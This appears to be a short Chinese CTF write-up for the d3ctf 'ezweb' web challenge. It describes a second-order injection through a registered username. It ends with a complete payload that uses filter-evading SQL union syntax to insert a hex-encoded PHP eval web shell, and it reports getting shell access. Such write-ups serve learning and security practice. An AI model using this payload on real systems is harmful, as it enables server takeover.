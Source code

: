 date: 2020-04-20
categories:
- 比赛
tags:
- wp
- ctf
title: d3ctf
---
# d3ctf

疯狂涨姿势，就很nice

## wp

 https://github.com/wqmsybpw/wqmsybpw.github.io/blob/1401b571d975fec748a84a47691e468187a80ef8/_posts/2019-11-25-2019d3ctf-writeup.md 

 [https://nikoeurus.github.io/2019/11/26/D%5E3ctf-Web/](https://nikoeurus.github.io/2019/11/26/D^3ctf-Web/) 

 https://www.anquanke.com/post/id/193939#h3-4 



## web

### ezweb



![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g97tefki11j30ao01s743.jpg)

和username有关?

x  注册一个用户名为:`*/echo 1231231231;/*`的用户

二次注入,User 的index方法调用get_view

![image.png](http://ww1.sinaimg.cn/large/006pWR9aly1g985asdayuj30pm027dfx.jpg)



![image.png](http://ww1.sinaimg.cn/large/006pWR9aly1g985c901tuj30u208vmxr.jpg)



利用替换{来绕过select 和 union的过滤,利用0x....来绕过{的过滤

最后的payload

注册一个用户名为`aaa' unio{n selec}t 0x7B7B7068707D7D6576616C28245F504F53545B615D293B7B7B2F7068707D7D limit 1,1#`成功拿到shell权限





